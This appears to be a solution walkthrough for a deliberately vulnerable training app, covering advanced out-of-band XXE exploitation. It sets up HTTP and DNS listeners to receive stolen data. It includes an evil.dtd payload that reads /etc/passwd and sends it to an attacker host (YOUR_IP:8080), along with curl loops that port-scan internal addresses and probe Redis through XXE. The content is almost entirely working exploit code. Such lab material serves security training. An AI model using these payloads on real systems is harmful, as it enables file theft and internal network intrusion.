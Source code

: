 ### Advanced Solution Steps

#### Step 1: Out-of-Band XXE Setup
**Objective:** Establish external communication channel for data exfiltration

**Setting up attack infrastructure:**
```bash
# Setup HTTP server for data collection
python3 -m http.server 8080 &

# Setup DNS server for DNS exfiltration (requires dnslib)
python3 -c "
import socketserver
from dnslib import *

class DNSHandler(socketserver.BaseRequestHandler):
    def handle(self):
        data = self.request[0]
        query = DNSRecord.parse(data)
        print(f'DNS Query: {query.q.qname}')

server = socketserver.UDPServer(('0.0.0.0', 53), DNSHandler)
server.serve_forever()
" &
```

#### Step 2: Advanced XXE Exploitation
**Objective:** Extract data using parameter entities and external DTDs

**Using curl with external DTD:**
```bash
# Create evil.dtd on your server
cat > evil.dtd << 'EOF'
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://YOUR_IP:8080/exfil?data=%file;'>">
%eval;
%exfiltrate;
EOF

# Execute XXE attack
curl -X POST "http://localhost:5000/api/vuln/xxe-advanced" \
  -H "Content-Type: application/xml" \
  -d "<?xml version=\"1.0\"?><!DOCTYPE root [<!ENTITY % xxe SYSTEM \"http://YOUR_IP:8080/evil.dtd\"> %xxe;]><root></root>"
```

#### Step 3: Advanced Network Reconnaissance
**Objective:** Use XXE for internal network scanning

**Using curl for network scanning:**
```bash
# Port scanning through XXE
for port in 22 80 443 3306 5432; do
  curl -X POST "http://localhost:5000/api/vuln/xxe-advanced" \
    -H "Content-Type: application/xml" \
    -d "<?xml version=\"1.0\"?><!DOCTYPE root [<!ENTITY xxe SYSTEM \"http://192.168.1.1:$port\">]><root>&xxe;</root>"
done

# Service enumeration
curl -X POST "http://localhost:5000/api/vuln/xxe-advanced" \
  -H "Content-Type: application/xml" \
  -d "<?xml version=\"1.0\"?><!DOCTYPE root [<!ENTITY xxe SYSTEM \"http://localhost:6379/\">]><root>&xxe;</root>"
```
